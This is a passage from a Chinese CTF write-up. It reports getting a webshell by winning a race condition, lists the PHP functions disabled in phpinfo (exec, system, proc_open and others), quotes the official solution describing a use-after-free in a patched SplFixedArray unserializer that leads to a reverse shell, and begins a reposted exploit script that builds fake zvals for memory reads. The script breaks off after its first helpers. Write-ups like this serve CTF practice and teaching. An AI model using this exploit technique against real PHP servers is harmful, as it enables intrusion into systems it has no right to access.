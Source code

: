 

竞争一波，可以拿到webshell

![phpinfo](http://momomoxiaoxi.com/img/post/another/phpinfo.png)

![webshell](http://momomoxiaoxi.com/img/post/another/webshell.png)

在phpinfo中，可以看到很多函数被禁用。。。

```
  exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,	exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,
  display_errors                          	                                        

```



接下来的问题在于php.diff.官方题解讲到：



> 根据php.diff，可以得知修改部分在php的SplFixedArray类中，作者为SplFixedArray新增了序列化与反序列化方法。简单阅读修改部分可以发现bug存在于反序列化过程中：如果php_var_unserialize失败，会调用zval_ptr_dtor减少对应zval的引用计数，从而导致其被释放，造成use-after-free。通过伪造zval可以达到任意地址读写与代码执行。
> 拿到reverse shell之后，在根目录发现flag.txt，用flag_reader程序可以读出flag。

orz,反正我看不懂。。。

脚本贴上：

 ```Php
著作权归作者所有。
商业转载请联系作者获得授权，非商业转载请注明出处。
作者：Veneno
链接：http://www.venenof.com/index.php/archives/311/
来源：http://www.venenof.com/

<?php

function ptr2str($ptr)
{
    $out = '';
    for ($i = 0; $i < 8; $i++) {
        $out .= chr($ptr & 0xff);
        $ptr >>= 8;
    }
    return $out;
}

function readmem($address, $length)
{
    $inner = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
    $fakezval = ptr2str($address);
    $fakezval .= ptr2str($length);
 ```
